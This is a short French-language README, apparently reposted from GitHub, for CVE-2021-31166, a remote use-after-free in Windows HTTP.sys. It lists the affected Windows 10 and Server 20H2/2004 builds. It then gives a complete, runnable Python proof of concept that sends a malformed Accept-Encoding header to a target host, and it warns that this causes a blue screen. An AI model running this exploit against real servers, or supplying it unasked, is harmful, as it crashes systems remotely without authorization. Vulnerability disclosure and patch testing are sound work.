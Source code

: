 <languages  />

Impact de la vulnérabilité
--------------------------

    Windows Server, version 20H2 (Server Core Installation)
    Windows 10 Version 20H2 for ARM64-based Systems
    Windows 10 Version 20H2 for 32-bit Systems
    Windows 10 Version 20H2 for x64-based Systems
    Windows Server, version 2004 (Server Core installation)
    Windows 10 Version 2004 for x64-based Systems
    Windows 10 Version 2004 for ARM64-based Systems
    Windows 10 Version 2004 for 32-bit Systems

POC
---

⚠️️ Un écran bleu apparaîtra lorsque le POC est exécuté.

    # Axel '0vercl0k' Souchet - May 16 2021
    import requests
    import argparse

    def main():
        parser = argparse.ArgumentParser('Poc for CVE-2021-31166: remote UAF in HTTP.sys')
        parser.add_argument('--target', required = True)
        args = parser.parse_args()
        r = requests.get(f'http://{args.target}/', headers = {
            'Accept-Encoding': 'doar-e, ftw, imo, ,',
        })
        print(r)

    main()

GIF
---

![](windows.gif "windows.gif")

Référence
---------

<https://github.com/0vercl0k/CVE-2021-31166>